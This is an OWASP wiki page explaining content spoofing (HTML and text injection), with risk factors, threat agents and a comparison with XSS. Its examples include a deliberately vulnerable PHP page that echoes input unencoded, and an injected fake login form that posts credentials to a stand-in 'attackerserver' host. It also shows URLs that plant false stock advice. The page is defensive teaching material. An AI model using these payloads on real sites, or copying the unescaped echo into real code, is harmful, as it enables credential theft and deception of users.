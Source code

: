 ```yaml
---

layout: col-sidebar
title: Content Spoofing
author: 
contributors: 
permalink: /attacks/Content_Spoofing
tags: attack, Content Spoofing
auto-migrated: 1

---
```


## Description

Content spoofing, also referred to as *content injection*, "arbitrary
text injection" or *virtual defacement*, is an attack targeting a user
made possible by an injection vulnerability in a web application. When
an application does not properly handle user-supplied data, an attacker
can supply content to a web application, typically via a parameter
value, that is reflected back to the user. This presents the user with a
modified page under the context of the trusted domain.
This attack is typically used as, or in conjunction with, social
engineering because the attack is exploiting a code-based vulnerability
and a user's trust. As a side note, this attack is widely misunderstood
as a kind of bug that brings no impact.

## Risk Factors

Risk factors depend on the business type of the application. If the
application business brand is well known and has major competitors, this
issue can be abused by malicious competitors/disgruntled
employees/unsatisfied customers to trigger mass distributions of false
messages to unsuspecting customers. Another factor that heightens the
risk is by doing SEO injection in a way that search engines crawl and
index crafted URLs with falsified messages.

By doing so, customers could be forced to switch to competitor's
products. This could lead to loss of monetary value until rectification
is properly done by the victim business. For public traded companies,
its shares will be falling down, leading to uncontrolled loss of
millions.

![Fake-text.png](Fake-text.png "Fake-text.png")

## Attack Scenario

An attacker compromised social accounts which have thousands of
followers and distribute misleading Content Spoofing payload via
Twitter/Facebook/Instagram/ similar popular channel. This will lead
media to assume news is correct and create headline stories.

## Applicable Industries

  - A business entity selling one type of product as a major business
    function

For example, Taxi hailing business, Online shopping business, Online
service business

  - A business entity relying on the brand name

For example, Cosmetic brand, Airline brand

## [Threat Agents](Threat_Agents "wikilink")

  - Malicious competitors
  - Disgruntled employees
  - Unsatisfied customers
  - Scammers

## Content Spoofing vs. Cross-site Scripting

Content spoofing is an attack that is closely related to [Cross-site
Scripting (XSS)](Cross-site_Scripting_\(XSS\) "wikilink"). While XSS
uses \[<https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet>

<script>

and other techniques\] to run JavaScript, content spoofing uses other
techniques to modify the page for malicious reasons.

Even if XSS mitigation techniques are used within the web application,
such as proper output encoding, the application can still be vulnerable
to text based content spoofing attacks.

## Examples

### Hypertext Markup Language (HTML) Injection

A possible attack scenario is demonstrated below. For this scenario,
lets assumes no output encoding is being implemented:

1.  Attacker discovers injection vulnerability and decides to spoof a
    login form
2.  Attacker crafts malicious link, including his injected HTML content,
    and sends it to a user via email
3.  The user visits the page due to the page being located within a
    trusted domain
4.  The attacker's injected HTML is rendered and presented to the user
    asking for a username and password
5.  The user enters a username and password, which are both sent to the
    attackers server

<!-- end list -->

  -
    A simple PHP page containing an injection vulnerability via the
    *name* parameter:

<!-- end list -->

    <?php
        $name = $_REQUEST ['name'];
    ?>
    <html>
        <h1>Welcome to the Internet!</h1>
        <br>
        <body>
                Hello, <?php echo $name; ?>!
            <p>We are so glad you are here!</p>
        </body>
    </html>

The page functionality can be tested by making the following GET request
to the page:

    http://127.0.0.1/vulnerable.php?name=test

By requesting the link below, the page renders the injected HTML,
presents a login form, and comments out the rest of the page after the
injection point. Once a user enters their username and password, the
values are sent to a page named *login.php* on the attacker's server via
POST.

    http://127.0.0.1/vulnerable.php?name=<h3>Please Enter Your Username and Password to Proceed:</h3><form method="POST"
    action="http://attackerserver/login.php">Username: <input type="text" name="username" /><br />Password: <input type="password"
    name="password" /><br /><input type="submit" value="Login" /></form><!--

### Text Injection

Another example of a content spoofing attack would be to present false
information to a user via text manipulation. An attack scenario is
demonstrated below. For this scenario, lets assume proper output
encoding HAS been implemented and XSS is not possible:

1.  An attacker identifies a web application that gives recommendations
    to its users on whether they should buy or sell a particular stock
2.  The attacker identifies a vulnerable parameter
3.  The attacker crafts a malicious link by slightly modifying a valid
    request
4.  The link containing the modified request is sent to a user and they
    clicks the link
5.  A valid webpage is created using the attackers malicious
    recommendation and the user believes the recommendation was from the
    stock website

**Valid Page**

    http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=We+Recommend+You+Buy+Now

**Modified Page**

    http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=We+Really+Recommend+You+Sell+This+Stock+Now

Other example:

**Modified Page**

    http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=Our+site+has+experienced+major+hacking+incident.Please+use+our+competitor+site+http://www.competitor.com+until+we+further+announced+for+update.

## Related [Attacks](https://owasp.org/www-community/attacks/)

  - [Cross-site Scripting
    (XSS)](Cross-site_Scripting_\(XSS\) "wikilink")
  - [:Category:Injection Attack](:Category:Injection_Attack "wikilink")

## Related [Vulnerabilities](https://owasp.org/www-community/vulnerabilities/)

  - [:Category:Input Validation
    Vulnerability](:Category:Input_Validation_Vulnerability "wikilink")
  - [Improper Data Validation](Improper_Data_Validation "wikilink")

## Related [Controls](https://owasp.org/www-community/controls/)

  - [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

## References

  - <http://capec.mitre.org/data/definitions/148.html>
  - <http://projects.webappsec.org/w/page/13246917/Content%20Spoofing>
  - <http://itlaw.wikia.com/wiki/Content_injection_attack>
  - CERT Advisory on Malicious HTML Tags:
    <http://www.cert.org/advisories/CA-2000-02.html>
  - OWASP's [XSS (Cross Site Scripting) Prevention Cheat
    Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
  - OWASP Guide to Building Secure Web Applications and Web Services,
    Chapter 8: [Data Validation](Data_Validation "wikilink")
  - HTML Code Injection and Cross-site Scripting:
    <http://www.technicalinfo.net/papers/CSS.html>
  - Case studies (Spotify, LinkedIn, ..etc):
    <https://twitter.com/ncweaver/status/974802236567007232?s=12>

[Category:Injection](https://owasp.org/www-community/Injection_Flaws)
[Category:Attack](Category:Attack "wikilink")